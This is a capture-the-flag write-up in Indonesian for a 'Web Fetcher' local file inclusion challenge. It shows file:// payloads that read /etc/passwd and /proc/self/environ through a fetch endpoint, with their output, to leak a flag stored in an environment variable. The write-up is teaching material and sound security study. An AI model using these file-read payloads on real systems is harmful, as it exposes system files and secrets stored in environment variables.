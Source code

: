 # Web Fetcher
<H2>Topic: LFI</H2>
Tools: browser, text viewer

Untuk meyelesaikan ini kita harus mengerti tata folder yang di dalam server. maka dari itu mari kita lihat code yang di dalam file DockerFile sebagai contoh. 
``` docker
FROM denoland/deno:latest

RUN mkdir -p /ctf
WORKDIR /ctf
COPY ./src/ .
COPY ./makefile .

RUN useradd -d /home/ctf/ -m -p ctf -s /bin/bash ctf
RUN echo "ctf:ctf" | chpasswd

ENV FLAG="Bukan Flag Asli"
RUN deno cache main.ts

USER ctf

ENV PORT=1337
EXPOSE 1337
CMD deno run --no-prompt \
    --allow-env \
    --allow-read \
    --allow-net \
    main.ts  
```
menurut code yang di atas kita akan mempunyai folder `/ctf` sebagai working directory lalu seluruh file yang ada di dalam `./src` akan di copy ke dalam `/ctf` lalu kita juga mempunyai flag kita yang berada di dalam environment variable. Mencoba web yang diberikan kita tahu web ini berfungsi untuk fetch dari input yang berikan.

Maka dari itu karena topic nya merupakan LFI kita harus mencari tahu bagaimana caranya untuk membaca environment variable. Dengan mencari di google kita bisa mendapat info tentang environment variable dengan membaca `/proc/self/environ` yang dimana file itu berupa list dari semua environment variable di mesin linux. 

untuk fecth nya biasanya kita bisa menggunakan cara `file://` mari kita coba payload pertama berupa 
```bash 
file:///etc/passwd
```
dengan output seperti ini
```bash
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List 
Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
deno:x:1993:1993::/home/deno:/bin/sh ctf:x:1994:1994::/home/ctf/:/bin/bash
```
code di atas berarti untuk membaca file /etc/paswwd, karena kita bisa membaca payload tersebut mari kita coba dengan
```bash
file:///proc/self/environ
```
yang dimana kita mendapatkan output ini
```bash
HOSTNAME=3a6abdf511de
PORT=1337
HOME=/home/ctf/
DENO_INSTALL_ROOT=/usr/local
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DENO_DIR=/deno-dir/
PWD=/ctf
FLAG=TCP1P{********************_with_fetch}
DENO_VERSION=1.29.1
```
note:* hanya untuk menutupi full flag

<H5>Referensi</H5>

[From local file inclusion to code execution](https://resources.infosecinstitute.com/topic/local-file-inclusion-code-execution/#:~:text=implementation%20by%20DVWA.-,The%20%2Fproc%2Fself%2Fenviron%20file,as%20REMOTE_PORT,%20HTTP_USER_AGENT%20and%20more)

[shell via LFI - proc/self/environ method](https://www.exploit-db.com/papers/12886)

[EXPLOITING LOCAL FILE INCLUSION (LFI ) VULNERABILITY WITH /PROC/SELF/ENVIRON METHOD | LFI ATTACKS](https://sec-art.net/2021/10/27/exploiting-local-file-inclusion-lfi-vulnerability-with-proc-self-environ-method-lfi-attacks/)
